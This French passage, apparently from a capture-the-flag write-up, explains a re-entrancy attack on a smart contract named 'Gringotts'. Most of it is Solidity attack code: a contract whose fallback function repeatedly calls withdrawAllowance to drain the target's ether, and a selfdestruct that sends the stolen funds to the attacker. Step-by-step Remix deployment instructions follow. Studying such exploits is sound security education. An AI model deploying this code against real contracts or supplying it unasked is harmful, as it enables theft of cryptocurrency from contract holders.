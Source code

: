 ```js
pragma solidity >=0.4.22 <0.6.0;

contract Gringotts {
  // tous le code du contrat
}

contract Attack {
    
  	address target = 0xb5718566197aB563FF468e03D6B9eb6F76627cF0; // adresse de la nouvelle instance du smart contract
    Gringotts public g;
    
    constructor() public {
        g = Gringotts(target);
    }
   
    function collect() payable public {
        g.donateToSorcery.value(msg.value)(this);
        g.withdrawAllowance();
    }
    
    function kill() public {
        selfdestruct(msg.sender);
    }

    function () payable public {
        if (address(g).balance >= msg.value) {
            g.withdrawAllowance();
        }
    }
}
```

* le constructeur va initialiser notre smart contrat déjà existant qui se trouve à l'adresse `target`.

* `collect()` va mettre en place l'attaque Re-Entrancy.

* la fallback function sera exécutée tant qu'il y a encore des ethers a dérober.

* `kill()`va detruire le smart contract `Attack`et envoyer les ethers au créateur de la transaction.

> [Introduction to Smart Contracts](https://solidity.readthedocs.io/en/v0.4.21/introduction-to-smart-contracts.html)
>
> The only possibility that code is removed from the blockchain is when a contract at that address performs the `selfdestruct` operation. The remaining Ether stored at that address is sent to a designated target and then the storage and code is removed from the state. 

Pour mettre en place l'attaque, nous allons utiliser [Remix](https://remix.ethereum.org), créer par exemple le fichier `Attack.sol`, y mettre tout le code précédent, le compiler. Déployer ensuite une instance de `Attack.sol` dans l'environnement `Injected Web3`. Patienter, et lancer la méthode `collect()` afin que notre instance de `Attack.sol`dérobe tout les ethers, attendre la fin de la transaction. Puis `kill()` pour récupérer ce que l'on vient de dérober dans notre wallet.

